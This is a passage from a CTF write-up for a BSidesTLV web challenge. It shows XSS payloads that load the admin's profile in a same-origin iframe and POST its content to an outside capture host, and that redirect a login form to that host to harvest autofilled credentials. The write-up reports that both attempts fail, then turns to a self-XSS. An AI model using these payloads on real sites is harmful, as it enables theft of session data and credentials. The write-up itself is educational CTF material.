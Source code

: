 Well, there's the answer right there: The session cookie is marked as "HTTPOnly", meaning that Javascript has no access to it!

Ok then, we still have the ability to upload content to the website. We can create an iframe and access its content via Javascript, as long as both pages are from the same origin. This way, we can try to access the admin's profile page and see if there's anything interesting in it:

```html
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<iframe src="https://bugler.ctf.bsidestlv.com/profile" id="my_iframe"></iframe>

<script>
$('#my_iframe').on("load",function(){
    var body = $("#my_iframe").contents().find('body').html();
    $.post( "https://endlbdl92l0m4.x.pipedream.net/?profile", { data: btoa(body) } );
});
</script>
```

However, we just get the login page, as the the admin isn't logged in.

Maybe he has autocomplete? We can try to steal his credentials by submitting the login form to our server:

```html
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<iframe src="https://bugler.ctf.bsidestlv.com/login" id="my_iframe"></iframe>

<script>
$('#my_iframe').on("load",function(){
    var form = $("#my_iframe").contents().find("form")
    form.attr('action', 'https://endlbdl92l0m4.x.pipedream.net/');
    setTimeout(function(){
        form.submit()
    }, 2000);
});
</script>
```

However, the username and password come in blank. What are we missing?

At this stage, it's a good idea to start searching for any other vulnerability or special behavior that we might have missed.

For example, we can find a self-XSS in the profile page:

![](images/bugler7.png)

